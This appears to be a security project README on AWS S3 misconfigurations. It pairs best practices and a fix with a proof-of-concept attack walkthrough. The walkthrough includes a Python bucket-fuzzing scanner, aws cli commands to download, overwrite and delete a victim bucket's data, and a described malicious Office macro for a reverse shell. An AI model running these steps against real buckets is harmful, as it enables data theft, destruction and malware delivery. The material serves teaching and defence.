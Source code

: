 # AWS Sagemaker S3 Bucket Vulnerabilities

## Overview
Amazon S3 (Simple Storage Service) is a scalable object storage service provided by AWS. While it is designed for high availability, scalability, and secure storage of data, misconfigurations and misuse can lead to serious security vulnerabilities. Understanding these vulnerabilities is crucial for securing your data effectively.

## Common Vulnerabilities

### 1. **Misconfigured Bucket Permissions**
   - **Public Access:** S3 buckets can be configured to allow public access, either intentionally or accidentally. This can lead to unauthorized data exposure and breaches.
   - **Complex Access Policies:** Errors in bucket policies or IAM (Identity and Access Management) roles can result in unintended permissions, potentially allowing unauthorized users to access or modify data.

### 2. **Unsecured Data Transfers**
   - **Data in Transit:** Data not using SSL/TLS encryption during transfer is susceptible to interception by malicious actors.
   - **Encryption at Rest:** Failure to enable encryption at rest allows physically accessed data to be readable.

### 3. **Poor Logging and Monitoring**
   - **Lack of Auditing:** Without proper logging (like AWS CloudTrail logs), it's difficult to detect or react to unauthorized access or other malicious activities.
   - **Insufficient Monitoring:** Failing to monitor access and activities around S3 buckets can delay the detection of a security breach.

### 4. **Outdated Data Management Policies**
   - **Retention Policies:** Improperly managed data lifecycle policies can lead to retaining sensitive data longer than necessary, increasing the risk if the bucket is compromised.
   - **Deletion Policies:** Accidental or malicious deletion of important data due to lack of safeguards or backup strategies.

### 5. **Cross-Origin Resource Sharing (CORS) Misconfiguration**
   - **Insecure CORS Settings:** Incorrectly configured CORS settings can allow unauthorized websites to interact with your bucket, potentially leading to data theft or loss.

## Best Practices for Securing S3 Buckets
1. **Enable Bucket Encryption:** Always use server-side encryption (SSE) to protect data at rest.
2. **Use Secure Transport Protocols:** Enforce the use of HTTPS to secure data in transit.
3. **Implement Strong Access Controls:** Use IAM roles and bucket policies to strictly control who can access the data.
4. **Enable Logging and Monitoring:** Utilize AWS CloudTrail and other monitoring tools to keep an eye on bucket usage and access patterns.
5. **Regularly Review Permissions:** Periodically audit S3 buckets and IAM roles to ensure only necessary permissions are granted.

# Performing a PoC Attack on a vulnerable s3 Bucket

## Reconning an organization and scanning for misconfigured s3 buckets

Given a Website for a fake company `Sage` we can generate a wordlist that we can use for fuzzing webpages, subdomains, usernames, and s3 buckets.

We will use cewl to generate the wordlist: `cewl http://34.237.3.44/ -w bucket-names.txt`

Next: we'll fast-forward to fuzzing for s3 buckets. Here I have a custom Python3 script that takes in a wordlist and fuzzes for s3 buckets that are publically accessible.

```
import argparse
import requests
from colorama import Fore, Back, Style
from colorama import init
init(autoreset=True) 

def scan_4_public_access(bucket_names):
    for bucket_name in bucket_names:
        url = f'http://{bucket_name}.s3.amazonaws.com/'
        response = requests.get(url)
        if response.status_code == 200:
            print(Fore.RED + Style.BRIGHT + f"*** Bucket {bucket_name} -- HIT!!! Publicly accessible! Dumping contents!*** ")
            print(response.text)  # This will print the contents of the bucket, if listing is enabled.
        else:
            print(Fore.GREEN + f"Bucket {bucket_name} -- miss")


def parse_wordlist(filename):
    """Reads a wordlist file and returns a list of lines."""
    try:
        with open(filename, 'r') as file:
            return [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print(f"Error: The file '{filename}' does not exist.")
        return []
    except IOError as e:
        print(f"Error: Could not read file '{filename}'. {e}")
        return []


def main():
    parser = argparse.ArgumentParser(description="Parse a wordlist into a list.")
    parser.add_argument('wordlist', type=str, help="Filename of the wordlist")
    
    args = parser.parse_args()
    
    # Parse the wordlist file into a list called bucket_names
    bucket_names = parse_wordlist(args.wordlist)
    
    # Optionally, print or process the bucket_names list here to demonstrate functionality
    print("Scanning buckets for public access!")

    scan_4_public_access(bucket_names)


if __name__ == "__main__":
    main()
```

## Steal, manipulate, upload malware

We can manipulate the data with aws cli tools

* **List bucket contents** `aws s3 ls s3://securetrust/`
* **Download bucket data** `aws s3 cp s3://securetrust/ . --recursive`
* **Upload to bucket** `aws s3 cp scan.py s3://securetrust/`
* **Delete bucket data** `aws s3 rm s3://securetrust/fraudTrain.csv`

**Uploading Malware**

We can upload infected Microsoft Office documents to the bucket in hopes that an employee who manages AWS Sagemaker will open it out of curiosity.

Here is a Macro embedded into a Microsoft Office file that will connect to a command and control server that I control. 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3ec9efb7-f380-4276-b0bf-37b8a3b60b73)

**Getting a reverse shell**

Once the user opens the document a reverse shell is triggered: 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/096135b4-cce4-4879-b6ac-144e021ab17f)

**Post-Exploitation**

After obtaining access to the victim machine, it will be necessary to perform privilege escalation plunder the contents of their files in search of IAM or other AWS credentials stored in environment variables or credential files. 

## A simple fix

The s3 bucket we exploited was publically accessible with read/write privileges. To fix this create another new bucket checking `ACLs disabled` and enable `Block Public Access` during creation.  

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3b5e6756-355c-4b74-87c4-b0b56fc29a31)




## Conclusion
Securing an AWS S3 bucket requires careful attention to configuration settings and access controls. By understanding common vulnerabilities and adopting best practices, organizations can significantly mitigate risks associated with S3 storage.
